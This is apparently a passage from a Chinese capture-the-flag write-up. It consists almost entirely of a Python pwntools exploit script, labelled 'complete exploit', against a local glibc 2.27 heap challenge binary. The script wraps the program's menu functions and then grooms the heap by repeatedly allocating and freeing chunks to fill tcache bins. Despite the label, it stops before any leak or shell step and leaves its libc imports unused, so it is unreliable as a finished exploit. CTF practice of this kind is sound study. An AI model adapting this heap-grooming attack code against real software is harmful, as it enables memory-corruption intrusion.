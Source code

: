 完整exp：

```python
from pwn import *
from LibcSearcher import LibcSearcher
e=ELF('/glibc/2.27/amd64/lib/libc.so.6')

p=process('./1pwn')


def add(num,size):
	p.sendline('1')
	p.recvuntil('input index')
	p.sendline(str(num))
	p.recvuntil('input size')
	p.sendline(str(size))



def free(num):

	p.sendline('2')
	p.recvuntil('input index')
	p.sendline(str(num))

def edit(num,text):

	p.sendline('3')
	p.recvuntil('input index')
	p.sendline(str(num))
	p.recvuntil('input content')
	p.send(text)

def show(num):
	p.sendline('4')
	p.recvuntil('input index')
	p.sendline(str(num))


def leaveYourName(text):
	p.sendline('5')
	p.recvuntil('your name:')
	p.sendline(text)

def showYourName(text):
	p.sendline('6')


add(0,0x59)

add(1,0x28)
edit(1,'wwww\n')
add(2,0x58)
edit(2,'wwww\n')
free(0)
add(3,0x59)
for i in range(7):
	add(i+4,0x58)
for i in range(7):
	free(i+4)
for i in range(7):
	add(i+4,0x59)
for i in range(7):
	free(i+4)
```